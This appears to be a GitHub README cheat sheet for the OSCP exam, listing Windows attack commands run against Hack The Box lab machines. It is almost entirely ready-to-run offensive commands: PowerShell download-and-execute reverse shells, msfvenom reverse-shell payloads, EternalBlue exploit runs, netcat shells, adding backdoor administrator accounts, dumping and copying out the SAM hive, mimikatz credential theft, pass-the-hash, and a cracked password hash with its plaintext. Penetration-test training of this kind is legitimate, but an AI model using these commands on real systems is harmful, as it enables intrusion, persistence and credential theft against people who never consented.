 # OSCP Cheat Sheets Windows
Preparation for OSCP

## RECON

#### Fireall
```Shell
netsh advfirewall firewall add rule name="SMB" protocol=TCP dir=in localport=445 action=allow
netsh advfirewall firewall add rule name="SMB" protocol=TCP dir=out localport=445 action=allow
```


#### SMB
```Shell
nmap -Pn -sT -n --script smb-enum-shares.nse  10.10.10.40 -p 135,139,445
```
```Shell
smbclient -L 10.10.10.40 -N 
smbclient //10.10.10.40/Users -N
```
```Shell
smbmap -H 10.10.10.40 -u ''
```
```Shell
mkdir smbFolder
mount -t cifs //10.10.10.40/Users /tmp/smbFolder -o username=null,password=null,domain=WORKGROUP,rw
```
```Shell
smbcacls //10.10.10.40/Users Admin/Desktop -N
smbcacls //10.10.10.40/Users Admin/Desktop -N | grep Everyone
```

#### Transer file

```Shell
root@kali:/OSCPv3/htb/Optimum# python -m SimpleHTTPServer 80
PS C:\Users\kostas\Desktop> certutil.exe -f -urlcache -split http://10.10.14.2/bfill.exe bfill.exe
```
```Shell
root@kali:/OSCPv3/htb/Optimum# python -m SimpleHTTPServer 80
C:\Users\kostas\Desktop>powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.2/bfill.exe','C:\Users\kostas\Desktop\bfill-2.exe')"
```
```Shell
root@kali:/OSCPv3/htb/Optimum# python -m SimpleHTTPServer 80
powershell Invoke-WebRequest "http://10.10.14.2/bfill.exe" -OutFile "C:\Users\kostas\Desktop\bfill-3.exe"
```
```Shell
root@kali:/OSCPv3/htb/Optimum# impacket-smbserver folder $(pwd)
copy \\10.10.14.2\folder\bfill.exe C:\Users\kostas\Desktop\exploit.exe

#C:\Users\kostas\Desktop>powershell -c "New-PSDrive -Name 'SharedFolder' -PSProvider 'FileSystem' -Root '\\10.10.14.2\folder'"
#C:\Users\kostas\Desktop>copy SharedFolder:\bfill.exe C:\Users\kostas\Desktop\exploit.exe
```


## Vulnerability Discovery

```Shell
nmap -Pn -sT -n --script "vuln and safe" 10.10.10.40 -p 135,139,445
```

```Shell
searchsploit eternalblue
searchsploit -x 42315
searchsploit -m 42315
```

## Explotation

#### Shells
```Shell
root@kali:/OSCPv3/htb/Optimum# python -m SimpleHTTPServer 80
10.10.10.8 - - [12/Jan/2022 21:58:35] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```
```Shell
C:\Users\kostas\Desktop>start /b C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 443
C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 443
```
```Shell
PS C:\> [Environment]::Is64BitOperatingSystem
PS C:\> [Environment]::Is64BitProcess
```

#### Crack
#Pwd NetNTLM
```Shell
root@kali:/OSCPv3/htb/Optimum# cat hash 
kostas::OPTIMUM:4141414141414141:cb75e848816d72f0887c979360a94c8d:01010000000000008049ffc23c08d801d13ac8046c9c0773000000000100100062004f0056006c004c006300560043000200100053005100730044004600540044004f000300100062004f0056006c004c006300560043000400100053005100730044004600540044004f00070008008049ffc23c08d80106000400020000000800300030000000000000000000000000200000427ee1a135839f2e7cdb03560c68c4af3fd234632cc4c0ce7480b21dc9de2fb40a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003200000000000000000000000000
```
```Shell
root@kali:/OSCPv3/htb/Optimum# john --wordlist=pwd.txt hash_impacket_smb 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/32])
Press 'q' or Ctrl-C to abort, almost any other key for status
kdeEjDowkS*      (kostas)
1g 0:00:00:00 DONE (2022-01-12 23:21) 100.0g/s 100.0p/s 100.0c/s 100.0C/s kdeEjDowkS*
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


#### Eternalblue
```Shell
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py
python 42315.py 10.10.10.40
```

```Shell
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o exploit.exe EXITFUNC=thread LHOST=10.10.14.28 LPORT=4444
python 42315.py 10.10.10.40 samr exploit.exe 
```

```Shell
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
python eternal_checker.py 10.10.10.40

./shell_prep.sh 
python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin 

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.28 LPORT=4444
python eternalblue_exploit7.py 10.10.10.40 sc_x64_msf.bin
```



## Post Explotation

#### Windows Users
```Shell
net users
net user admin admin /add
net localgroup administrators
net localgroup administrators admin /add
net localgroup "Remote Desktop Users" admin /add
```

#### Crackmapexec
```Shell
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' -x 'whoami'
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' --sam
crackmapexec smb 10.10.10.40 -u 'Administrator' -H cdf51b162460b7d5bc898f493751a0cc -x 'whoami'
crackmapexec smb 10.10.10.40 -u 'Administrator' -H cdf51b162460b7d5bc898f493751a0cc -M mimikatz -o COMMAND="privilege::debug token::elevate sekurlsa::logonpasswords exit"
crackmapexec smb 10.10.10.40 -u 'admin' -p 'kdeEjDowkS*' -x '\\10.10.14.2\smbfolder\nc.exe -e cmd 10.10.14.2 4444'
```

#### Windows SAM
```Shell
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup

impacket-smbserver smbfolder $(pwd)
copy sam.backup \\10.10.14.28\smbfolder\sam
copy system.backup \\10.10.14.28\smbfolder\system

pwdump system sam 
```

#### Windows psexec
```Shell
#reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
#user with admin priv
python /opt/impacket/examples/psexec.py WORKGROUP/admin:admin\@10.10.10.40 cmd.exe
python /usr/share/doc/python-impacket/examples/psexec.py WORKGROUP/kostas:kdeEjDowkS*@10.10.10.8 cmd.exe
```

#### Pass-The-Hash
```Shell
pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:d90b270062e8b9f118ab8e0f733df391 //10.10.10.8 cmd.exe
```

## Priv
https://github.com/SecWiki/windows-kernel-exploits

#PowerUp.ps1
```Shell
PS C:\Users\kostas\Desktop> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/PowerUp.ps1');Invoke-AllChecks;
```
#Wesng
https://github.com/bitsadmin/wesng
```Shell
root@kali:/OSCPv3/htb/Optimum# python /opt/wesng/wes.py systeminfo.txt
root@kali:/OSCPv3/htb/Optimum# python /opt/wesng/wes.py systeminfo.txt -i "Elevation Privilege"
```

#Windows-Exploit-Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```Shell
root@kali:/OSCPv3/htb/Optimum# python windows-exploit-suggester.py --update
root@kali:/OSCPv3/htb/Optimum# python windows-exploit-suggester.py --database 2022-01-12-mssb.xls  --systeminfo systeminfo.txt
```

#### MS16-098 - CVE-2016-3309 - Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe

#### MS16-032 - CVE-2016-0099 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032


